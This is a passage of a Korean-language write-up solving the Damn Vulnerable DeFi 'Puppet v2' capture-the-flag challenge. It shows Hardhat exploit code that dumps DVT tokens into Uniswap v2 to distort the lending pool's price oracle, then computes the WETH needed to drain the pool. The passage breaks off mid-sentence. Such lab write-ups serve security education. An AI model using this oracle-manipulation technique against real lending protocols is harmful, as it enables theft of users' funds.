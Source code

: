 ```tsx
            await this.token.balanceOf(this.lendingPool.address)
        ).to.be.eq('0');

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.be.gte(POOL_INITIAL_TOKEN_BALANCE);
    });
});
```

먼저 유니스왑v2에서 DVT 토큰을 weth로 스왑하기 위해서는 둘 다 토큰이므로 유니스왑v2의 라우터에서 swapExactTokensToTokens 함수를 사용한다.

![swapexactTokensToTokens.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1839244b-8682-42b5-aec5-1d8033e75f13/swapexactTokensToTokens.png)

swapExactTokensToTokens(보낼 토큰의양, 최소 받아야하는 양, 각 토큰의 주소, 스왑한 후 받을 주소)로 구성되어있다. 이는 approve가 먼저 선행되어야 하므로 DVT토큰을 먼저 approve해주자.

```tsx
it('Exploit', async function () {
        await this.token.connect(attacker).approve(this.uniswapRouter.address,ATTACKER_INITIAL_TOKEN_BALANCE);

        await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
            ATTACKER_INITIAL_TOKEN_BALANCE,
            0,
            [this.token.address,this.weth.address],
            attacker.address,
            (await ethers.provider.getBlock('latest')).timestamp * 2,   
        );
        
        attacker_weth_balance= await this.weth.connect(attacker).balanceOf(attacker.address);
        attacker_eth_balance= await ethers.provider.getBalance(attacker.address);
        console.log("Attacker weth:",ethers.utils.formatEther(attacker_weth_balance));
        console.log("Attacker eth:",ethers.utils.formatEther(attacker_eth_balance));
});
```

DVT 토큰을 weth로 스왑하여 받아온 결과 attacker의 주소에는 weth와 eth가 같이 있게 된다. 이를 console.log로 출력하면

 

```tsx
[Challenge] Puppet v2
Attacker weth: 9.900695134061569016
Attacker eth: 19.999754288536716396
```

가 된다. 우리는 100만 DVT 토큰을 대출하기 위해 weth를 입금할 것이므로 100만 DVT 토큰을 대출하기 위해 필요한 weth를 PuppetV2Pool 컨트랙트의 calculateDepositOfWETHRequired 함수를 이용해서 구해주자.

```tsx
let weth_need = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
console.log("need weth:",ethers.utils.formatEther(weth_need));
```

그러면 100만 DVT 토큰을 구하기 위해 필요한 weth는 총 

